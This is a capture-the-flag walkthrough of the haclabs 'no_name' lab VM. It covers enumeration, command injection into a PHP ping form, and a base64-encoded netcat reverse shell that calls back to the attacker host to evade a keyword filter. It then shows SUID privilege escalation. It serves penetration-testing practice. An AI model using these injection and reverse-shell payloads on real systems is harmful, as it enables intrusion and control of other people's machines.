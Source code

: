 # Exercise 1: haclabs: no_name

Kali and target VM are on 192.168.50.0 network

First, nmap host discovery

![Text Description automatically generated](media/51f8e032e04a2df92f0f83ebede1fb88.png)

Target is in 192.168.50.16. Only one open port: http port  
Get detailed info with nmap -A -p80 192.168.50.16  
Meanwhile, visit website

![A screenshot of a computer Description automatically generated](media/ceeaf7a4f2ed312f24406a15834d4870.png)

![Graphical user interface, text Description automatically generated](media/4ad3b37970e9a1f89b99ba7e80f4eeb1.png)

Post method on the button, perhaps we can explore more

Before we mess around with the form, run feroxbuster in the background to enumerate hidden directories. Use big.txt wordlist since we have a lot of time

feroxbuster --url http://192.168.50.16/ -w /usr/share/wordlists/dirb/big.txt -t 100 -C 403,404 -x php,txt

After trying out various commands (id, ; id, “; id, help), the output is always “Fake ping executed”

Meanwhile, feroxbuster finished running

![](media/bd00ccb3cf28a049afa5f665604f0e56.png)

seems like there is a superadmin.php webpage, similar looking post form

![Graphical user interface, text Description automatically generated](media/3867d62f36e02efe74c991b5e85fdcbc.png)

Entered “localhost” onto form, gives a result

![A screenshot of a computer Description automatically generated](media/208d913b2890f6e2e0a82ed935088aa9.png)

If the input is not sanitised, we can try various ways to execute other commands

After trying ;id, “id, “;id, I did some research to find other interesting php operators. Stumbled upon pipe operator: <https://wiki.php.net/rfc/pipe-operator-v2>. Evaluates anything on the left and passes it onto the right as an argument and executes command on the right. Therefore I entered “localhost \| id” which gives me this

![](media/32bfdb9f026e044eac811784101b96e4.png)

Tried the same thing with ls but nothing shows up, perhaps there is some form of input sanitising. Tried running echo, also didn’t work. Ran “find .” as if to list all files in the current directory, like ls. It gives a result

![](media/3bf288de365729834800704807cbcf31.png)

superadmin.php exists, so print file content using cat. “localhost \| cat superadmin.php”.

Similar website structure except there are two login forms. View source ![](media/2f4331670529c1546427a276d542167d.png)

Filters out phrases containing words in “word” array, including nc which is needed for a reverse shell

Convert netcat command to base64 which will then be decoded and run to bypass word filtering. Listen on port 4444

![](media/595b857fe0f9341c707c8b5fefd86466.png) ![Text Description automatically generated](media/53ca627d2ba8db66247b50aa546b0789.png)

![Graphical user interface, text, application Description automatically generated](media/12c3065079558949028c3e0a65b43f9b.png)

Command: localhost \| echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d

![Graphical user interface, text, application Description automatically generated](media/3dc10186df66999309efaf99bbe19724.png)

Shell is not spawned. Instead, it prints the decoded value without executing it

Quick google search reveals a php backtick operator which executes anything within it

<https://www.php.net/manual/en/language.operators.execution.php>  
New command is localhost \| \`echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d\`

![](media/8a1be08f8d2f6382b523f31e58e78aa9.png)

remove localhost since it is executing the command in our shell instead

New command: \| \`echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d\`

However, no shell access

![Text Description automatically generated](media/086803c6c8ce784a3b1c96585fe0a2d2.png)

Seems like we forgot to add -e /bin/bash flag which only works on nc.traditional.

![Graphical user interface, text, application, email Description automatically generated](media/cfcb5e8dfa0e05da664eb987ccff20a7.png)

We redo the above command with the new base64 string

\| \`echo "bmMudHJhZGl0aW9uYWwgMTkyLjE2OC41MC41IDQ0NDQgLWUgL2Jpbi9iYXNo=" \| base64 -d\`

![](media/d137c8f77bcd2844856ba887428a74ec.png)

We have shell!

haclabs password in a hidden file. Try looking for files containing “pass”. It gives too many results  
find / -name “\*pass\*” 2\> /dev/null

![](media/6ab5f3b3843bc203bad7fa7ccd995abf.png)

Since it’s a hidden file, we try to search all hidden files that are readable by the user yash  
find / -user yash -name “.\*” 2\> /dev/null

![Text Description automatically generated](media/19e38089f7132a23a853e9b0995afe4b.png)

login to haclabs First, upgrade to interactive shell using python’s pty command.  
python -c 'import pty; pty.spawn("/bin/bash")'

Didn’t work. Try python3 and python2

![Text Description automatically generated](media/4acf7e33f9891686737085087c8b5db2.png)

Now login to haclabs and get flag 2

![Text Description automatically generated](media/cef312f60f8e1e4f6f01c8ed877a6dae.png)

Now we try to find any binaries with SUID bit set to root upon execution

find / -uid 0 -perm -4000 -type f 2\> /dev/null

![](media/4cdc342e5c4d45709c8f9050bd6b4917.png)

Search gtfobin for each binary  
[https://gtfobins.github.io/gtfobins/pkexec/\#sudo](https://gtfobins.github.io/gtfobins/pkexec/#sudo) (did not work)  
[https://gtfobins.github.io/gtfobins/find/\#sudo](https://gtfobins.github.io/gtfobins/find/#sudo) (worked)

![Text Description automatically generated](media/09148e36d6eb82f3169655b1aed18953.png)

